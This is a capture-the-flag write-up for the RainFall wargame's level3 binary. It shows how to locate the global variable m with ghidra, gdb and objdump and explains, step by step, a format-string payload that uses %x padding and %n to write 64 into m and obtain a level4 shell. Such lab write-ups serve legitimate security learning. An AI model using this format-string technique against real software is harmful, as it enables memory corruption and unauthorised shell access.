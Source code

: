 ### How to find m address ?

There is actually three ways, or you can check on ghidra and by searching well or double click on the m inside ghidra, you can arrive to this line:

```sh
m       XREF[2]:     Entry Point(*), v:080484da(R)  
0804988c 00 00 00 00     undefined4 00000000h
```

Or we can also analyze it via gdb by using the command p for history (yes)

```
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c
```

There is no history to the variable yet but gives us its declaration address.

Finally you can use objdump which will print you the entire list of symbols of the executable:

```sh
level3@RainFall:~$ objdump -t ./level3

./level3:     file format elf32-i386

SYMBOL TABLE:
08048134 l    d  .interp	00000000              .interp
[...]
0804988c g     O .bss	00000004              m
[...]
```

### More explanation on the buffer

This is how the final buffer looks like:

'\x8c\x98\x04\x08' + '%x ' * 3 + 'A' * 38 + '%n'

Let's break down more precisely every part of it:

- The address at the beginning is the address of m and is in little endian format for it to be interpreted as an address and not just a string, and also to work on the architecture we are using for RainFall.
- Then we print 3 times %x which moves the stack pointer 3 positions away, where the buffer is stored, which means that now the stack pointer will be precisely on the address of m.
- We add then 38 A (could be any values), why 38 tho ? If we print with check how the stack looks like by using "%x" input, this is what we see:
```sh
level3@RainFall:~$ ./level3 
%x %x %x %x %x 
200 b7fd1ac0 b7ff37d0 25207825 78252078
```
The first value of the stack we can see is the buffer size in hexadecimal. Then 2 addresses on the stack that we don't really care for, probably a saved pointer of EBP and maybe a return address. Then finally we have our 252078 repeated multiple time, which is the hexadecimal values of "%x ". The number of chars printed so far is 22 counting the spaces (it is part of chars printed by printf). We know that we need 64 chars, so quick maths gives... 42 ? Let's not forget that even if not printed as an address because it is interpreted by printf, the address counts as 4 chars, so substracted from 42, we get our 38 filling characters allowing us to reach a buffer of precisely 64 character.
- Finally we have the %n that makes everything work. At this state printf is searching for an address where to store the size of the buffer, the stack pointer is on the address of m. printf finds a buffer of size 64, stores it inside of m, the condition is fulfilled and we now have a shell as level4. 